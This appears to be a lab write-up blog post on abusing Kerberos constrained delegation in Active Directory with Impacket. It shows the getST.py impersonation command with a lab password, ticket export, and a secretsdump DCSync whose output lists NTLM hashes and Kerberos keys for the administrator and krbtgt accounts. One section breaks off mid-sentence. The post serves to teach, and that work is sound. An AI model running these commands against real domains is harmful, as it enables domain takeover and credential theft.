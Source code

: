 ```yaml
---
layout: post
title: Constrained Delegation With Impacket
subtitle: How Impacket Can Help You Tackle Constrained Delegation Attacks
tags: [IMPACKET]
---
```


# What Is A Constrained Delegation Attack

Constrained delegation is a feature in Microsoft's Active Directory that allows a service/account, to impersonate another service/account when accessing network resources. This feature is designed to facilitate authentication and authorization between different services in a network it allows access to a resource on behalf of another account.

One common scenario where constrained delegation is used is with the CIFS protocol, which allows users to access shared network folders. In this case, the CIFS constrained delegation permission is granted to a service/account to allow it to impersonate other accounts when accessing network resources.

In a constrained delegation attack, an attacker could use a compromised account (user or servicer account) with the CIFS constrained delegation permission to impersonate other users and access resources. This could allow the attacker to extract sensitive information or perform malicious actions. A great example of this could be a DCSync attack. 

A DCSync attack is a technique used by attackers to simulate the behavior of a domain controller and request sensitive credential information from Active Directory, such as password hashes for user accounts, potentially leading to a full compromise of the Active Directory environment. This is possible because the account that has delegation rights for CIFS can access that resource as any user, because they have been designated to do so.

## Exploitation With Impacket
In my lab I set up the account "Frodo" to have the `msds allowed to delegate to` attribute set to `CIFS/dc.lotr.local` (this is a extreme example but demonstrates how the attack works). With the CIFS constrained delegation permission, Frodo can impersonate any user or computer account to access SMB network resources, including the administrator account. Frodo can use his CIFS constrained delegation permission to create a TGT as the administrator user, he could then use that TGT to access SMB resources as the administrator. The CIFS delegation allows Frodo to delegate access to SMB shares on the Domain Controller as anyone.

The TGT could be used with impackets dcsync.py script to perform a DCSync, simulating the behavior of a domain controller to retrieve password data via domain replication.

### Enumeration
Using `get-doaminuser` via [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) shows them `msds-allowedtodelegateto` property set. On a engagement this could also be discovered via `bloodhound` 

![img](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/get-domainuserFrodo.png)

### Exploitation With Impacket
Once the account was identified a service ticket was generated with `getST.py`, impersonating the domain admin
```
┌──(root㉿kali)-[~/impacket/examples]
└─# python3 getST.py -spn cifs/dc.lotr.local -impersonate administrator -dc-ip 10.10.1.46 'lotr/frodo:Press#123'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

The ticket was then exported in kali
```
┌──(root㉿kali)-[~/impacket/examples]
└─# export KRB5CCNAME=administrator.ccache
```

The DCSync was performed. Impacket connected to the domain controller via smb to perform the DCSync.
```
┌──(root㉿kali)-[~/impacket/examples]
└─# impacket-secretsdump -k dc.lotr.local -just-dc
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1c3a1a94b9c4f29132f9fdf4c8d8cee1:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:81b08c3a5b56ccd94cdac3fb61ed7696:::
lotr.local\frodo:1104:aad3b435b51404eeaad3b435b51404ee:0f7421a8a3d0b0adcafa6862fd766818:::
lotr.local\gandalf:1105:aad3b435b51404eeaad3b435b51404ee:1c3a1a94b9c4f29132f9fdf4c8d8cee1:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:187d42125902934be349948ef0377245:::
WORKSTATION$:1103:aad3b435b51404eeaad3b435b51404ee:4d0cf71699ba922a8f581496a7aba220:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:2549b882ce260c7b86971c8536cded9dd94eaebab852daf62679b80d4acc06a8
Administrator:aes128-cts-hmac-sha1-96:191dbbfec51eb5e792e4822ee59c6c39
Administrator:des-cbc-md5:b93df4324c4af2cd
krbtgt:aes256-cts-hmac-sha1-96:bb06066912e51660c16ce4733411eab7bfed58ec36b680a39ef4c080a4777181
krbtgt:aes128-cts-hmac-sha1-96:163a2ff7c458a1aa2b27170ec7a5f78c
krbtgt:des-cbc-md5:baa26efe7af8a770
lotr.local\frodo:aes256-cts-hmac-sha1-96:9f13810cfedfd252ba538f0ffe2e0bd6a9ddde4bfc1160d63dc5dd8a45df4011
lotr.local\frodo:aes128-cts-hmac-sha1-96:4782e0c124787bd62e3ef6c53ad81b06
lotr.local\frodo:des-cbc-md5:98f2682c19b0c810
lotr.local\gandalf:aes256-cts-hmac-sha1-96:410394573a6e1f74c24b18dab0f5b61ac76d3d411dee1b77442b6757dce0b8ab
lotr.local\gandalf:aes128-cts-hmac-sha1-96:16c13c6548997aea9f2f4257d0c806e7
lotr.local\gandalf:des-cbc-md5:329129dfa726851c
DC$:aes256-cts-hmac-sha1-96:7aaa5e08414a6ed3ef47ec2ae59be71fe5f434e884719a412ff6228dfc36adaf
DC$:aes128-cts-hmac-sha1-96:f668b00d05e52115dbc1a965fa129779
DC$:des-cbc-md5:c873a1e6d6132af8
WORKSTATION$:aes256-cts-hmac-sha1-96:d9927a3bb33c9549283c9bb06bebe7853abe9f37103c5874424faa1c67feeb2d
WORKSTATION$:aes128-cts-hmac-sha1-96:228d4eef165a3bb937c1f0370ae7a45b
WORKSTATION$:des-cbc-md5:19a7e3e96ef20d6d
[*] Cleaning up...
```

### Other SPN's Worth Noting
If a user or service account 

## Summary
While constrained delegation is intended to be a secure feature, it can become a vulnerability if not properly configured. Attackers can exploit misconfigured delegation rights to gain access to valuable data or escalate their privileges within a network. Therefore, it's crucial to understand how constrained delegation works and to ensure it is properly configured to prevent attackers from abusing it.
